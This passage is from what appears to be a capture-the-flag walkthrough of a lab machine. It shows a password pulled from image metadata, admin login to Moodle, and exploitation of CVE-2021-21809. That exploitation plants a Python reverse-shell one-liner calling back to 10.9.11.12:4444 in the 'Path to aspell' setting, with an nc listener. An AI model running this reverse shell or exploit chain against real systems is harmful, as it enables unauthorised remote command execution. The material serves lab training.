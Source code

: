 So I quickly downloaded the image using the below command,

```bash
wget http://severnaya-station.com/dir007key/for-007.jpg
```

Now, that our image has been downloaded, we can view the metadata of the tool using `exiftool`,

```bash
exiftool for-007.jpg
```

![image](https://user-images.githubusercontent.com/67465230/175463935-c9f58917-50bc-4b03-92a5-5a3de79f45b1.png)

we can see that image description is encoded as base64.

After decoding this string, we got clear text password,

```bash
echo "eFdpbnRlcjE5OTV4IQ==" | base64 -d
```

![image](https://user-images.githubusercontent.com/67465230/175463942-82d8e6d2-08d3-4d6e-b3ca-fa00a7d179eb.png)

Now login as Admin and provide the password we got,

![image](https://user-images.githubusercontent.com/67465230/175464013-6f0193b9-2aa8-4360-9fb7-6e20a7f65593.png)

after providing the credentials, we got access to admin panel and we now have full access to panel.

Checking on the google for the software running on the website and I got this vulnerability, [Moodle spellchecker plugin command execution vulnerability](https://talosintelligence.com/vulnerability_reports/TALOS-2021-1277)

> **CVE-2021-21809** : A command execution vulnerability exists in the default legacy spellchecker plugin in Moodle 3.10. A specially crafted series of HTTP requests can lead to command execution. An attacker must have administrator privileges to exploit this vulnerabilities.

![image](https://user-images.githubusercontent.com/67465230/175464324-6a1ff878-983e-49a5-869f-b4bcbe571a7d.png)

we can navigate to system path and we get to know that if we put our one-liner reverse shell on Path to aspell, we can get the reverse shell on the system.

Now start the listener using `nc -nvlp 4444` and put this python one-liner reverse shell in **Path to aspell**,

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.11.12",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![image](https://user-images.githubusercontent.com/67465230/175464343-849eed28-d26d-4c6e-a7d8-2061806cd64a.png)

after searching for spell, we can change the spell engine to PSpellShell and paste the python one-liner reverse shell.

From there, go to `Navigation > My profile > Blog > Add a new entry` and click on the “Toggle spell checker” icon,
